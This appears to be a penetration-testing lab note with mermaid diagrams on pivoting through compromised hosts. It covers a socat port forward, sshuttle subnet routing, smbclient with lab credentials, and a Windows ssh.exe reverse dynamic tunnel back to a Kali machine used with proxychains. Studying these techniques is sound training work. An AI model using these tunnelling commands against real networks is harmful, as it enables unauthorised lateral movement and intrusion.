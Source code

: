 ```mermaid
sequenceDiagram
	participant K as KALI<br/>192.168.118.4
	participant C as CONFLUENCE01<br>192.168.50.63
	participant P as PGDATABASE01<br>10.4.50.215
	participant ? as ????<br>172.16.50.217
	critical Setup Socat port forward
		Note over C: socat TCP-LISTEN:2222,fork<br> TCP:10.4.50.215:22
		K-->>C: #10142; port 2222
		activate C
		C-->>P: #10142; port 22
		deactivate C
	end
	critical Specify which subnets to run through the SSH connection
	Note over K: sshuttle -r database_admin@192.168.50.63:2222<br> 10.4.50.0/24 172.16.50.0/24
	end
	critical Connect to smbclient
		Note over K: smbclient -L //172.16.50.217/<br> -U hr_admin --password=Welcome1234
		K->>C: #10142; port 2222
		activate C
		C->>P: #10142; port 22
		deactivate C
		activate P
		P->>?: #10142; port 445
	end
```

>[!code]- Run sshuttle to specify the subnets to tunnel through the 192.168.50.63:2222 socket<br>`sshuttle -r database_admin@192.168.50.63:2222 10.4.50.0/24 172.16.50.0/24`
>Any commands that specify an IP in the **10.4.50.0/24** or **172.16.50.0/24** subnet will be sent to the socket **192.168.50.63:2222** (which is then forwarded by Socat to the socket **10.4.50.215:22**).

---
### ssh.exe

>[!warning]- Warning - The same limitations apply as mentioned in the [](.md#SSH|SSH%20section).

>[!info]- Info - SSH Install Location
> The OpenSSH client has been bundled with Windows by default since version 1803 (April 2018 update). When installed, it's found in **%systemdrive%\Windows\System32\OpenSSH**.

>[!info]- Info - Setup
>
>![Pasted image 20240517051629](Pasted%20image%2020240517051629.png)
#### Remote Dynamic Port Forward

```mermaid
sequenceDiagram
	participant K as KALI<br/>192.168.118.4
	participant M as MULTISERVER<br>192.168.50.63
	participant P as PGDATABASE01<br>10.4.50.215
	Note over K: `sudo systemctl<br> start ssh`
	Note over M: Find install location<br> `where ssh`
	Note over M: Check install version<br> (above 7.6 for remote dynamic?)<br>`ssh.exe -V`
	critical Setup SSH remote dynamic port forward
		Note over M: ssh -N -R 9998 kali@192.168.118.4
		M-->>K: (ssh tunnel)<br> port 22 #8592;
		activate K
		K-->>M: (ssh tunnel)<br>(socks traffic)<br>port 9998 #10142;
		deactivate K
	end
	Note over K: Update /etc/proxychains.conf4<br>`socks5 127.0.0.1 9998`
	critical Connect to PostgreSQL database
		Note over K: proxychains psql -h 10.4.50.215<br> -U postgres
		K->>M: (ssh tunnel)
```